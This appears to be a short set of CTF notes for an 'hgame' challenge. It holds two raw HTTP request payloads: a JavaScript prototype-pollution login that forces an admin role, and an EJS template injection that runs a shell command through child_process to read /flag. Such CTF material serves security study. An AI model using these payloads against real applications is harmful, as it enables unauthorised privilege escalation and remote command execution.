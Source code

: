 - # 原型链污染
	- [[CTF/JS/原型链污染]]
	- payload
		- ```http
		  POST /login HTTP/1.1
		  Host: week-4.hgame.lwsec.cn:30052
		  Content-Length: 88
		  Cache-Control: max-age=0
		  Upgrade-Insecure-Requests: 1
		  Origin: http://week-4.hgame.lwsec.cn:30052
		  Content-Type: application/json
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
		  Referer: http://week-4.hgame.lwsec.cn:30052/login
		  Accept-Encoding: gzip, deflate
		  Accept-Language: en-US,en;q=0.9
		  Cookie: session=s%3A5xIDo7I-fsq9AMb-jXdy9fb9-Rj3iT9C.G7VOUI1cvglTSaduhuuxOYl%2FH65pfSFmV2iV59GzsPw
		  Connection: close
		  
		  {"username":"admin","password":"idontknow","constructor":{"prototype":{"role":"admin"}}}
		  ```
- # EJS SSTI
	- payload
		- ```http
		  POST / HTTP/1.1
		  Host: week-4.hgame.lwsec.cn:30052
		  Content-Length: 99
		  Cache-Control: max-age=0
		  Upgrade-Insecure-Requests: 1
		  Origin: http://week-4.hgame.lwsec.cn:30052
		  Content-Type: application/x-www-form-urlencoded
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
		  Referer: http://week-4.hgame.lwsec.cn:30052/
		  Accept-Encoding: gzip, deflate
		  Accept-Language: en-US,en;q=0.9
		  Cookie: session=s%3A5xIDo7I-fsq9AMb-jXdy9fb9-Rj3iT9C.G7VOUI1cvglTSaduhuuxOYl%2FH65pfSFmV2iV59GzsPw
		  Connection: close
		  
		  diary=<%25%3dglobal.process.mainModule.constructor._load('child_process').execSync("cat+/flag")%25>
		  ```